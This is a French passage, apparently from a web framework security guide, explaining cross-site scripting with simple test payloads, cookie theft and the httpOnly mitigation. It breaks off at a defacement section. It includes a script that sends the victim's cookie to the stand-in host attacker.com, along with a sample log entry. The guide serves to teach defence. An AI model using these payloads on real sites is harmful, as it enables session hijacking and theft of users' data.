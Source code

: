 Le langage XSS le plus courant est bien sûr le langage de script côté client le plus populaire, JavaScript, souvent en combinaison avec HTML. _Échapper les entrées utilisateur est essentiel_.

Voici le test le plus simple pour vérifier la présence de XSS :

```html
<script>alert('Bonjour');</script>
```

Ce code JavaScript affiche simplement une boîte d'alerte. Les exemples suivants font exactement la même chose, mais dans des endroits très inhabituels :

```html
<img src="javascript:alert('Bonjour')">
<table background="javascript:alert('Bonjour')">
```

##### Vol de cookies

Jusqu'à présent, ces exemples ne font aucun mal, voyons maintenant comment un attaquant peut voler le cookie de l'utilisateur (et ainsi prendre le contrôle de la session de l'utilisateur). En JavaScript, vous pouvez utiliser la propriété `document.cookie` pour lire et écrire le cookie du document. JavaScript applique la même politique de même origine, ce qui signifie qu'un script d'un domaine ne peut pas accéder aux cookies d'un autre domaine. La propriété `document.cookie` contient le cookie du serveur web d'origine. Cependant, vous pouvez lire et écrire cette propriété si vous intégrez le code directement dans le document HTML (comme cela se produit avec XSS). Injectez ceci n'importe où dans votre application web pour voir votre propre cookie sur la page de résultat :

```html
<script>document.write(document.cookie);</script>
```

Pour un attaquant, bien sûr, cela n'est pas utile, car la victime verra son propre cookie. L'exemple suivant tentera de charger une image à partir de l'URL http://www.attacker.com/ plus le cookie. Bien sûr, cette URL n'existe pas, donc le navigateur n'affiche rien. Mais l'attaquant peut consulter les fichiers journaux d'accès de son serveur web pour voir le cookie de la victime.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

Les fichiers journaux sur www.attacker.com ressembleront à ceci :

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Vous pouvez atténuer ces attaques (de manière évidente) en ajoutant le drapeau **httpOnly** aux cookies, de sorte que `document.cookie` ne puisse pas être lu par JavaScript. Les cookies HTTP seulement peuvent être utilisés à partir de IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 et Chrome 1.0.154 et versions ultérieures. Mais d'autres navigateurs plus anciens (comme WebTV et IE 5.5 sur Mac) peuvent effectivement empêcher le chargement de la page. Notez que les cookies [seront toujours visibles en utilisant Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), cependant.

##### Défiguration

Avec la défiguration de pages web, un attaquant peut faire beaucoup de choses, par exemple, présenter de fausses informations ou attirer la victime sur le site de l'attaquant pour voler le cookie, les identifiants de connexion ou d'autres données sensibles. La méthode la plus populaire consiste à inclure du code provenant de sources externes via des iframes :
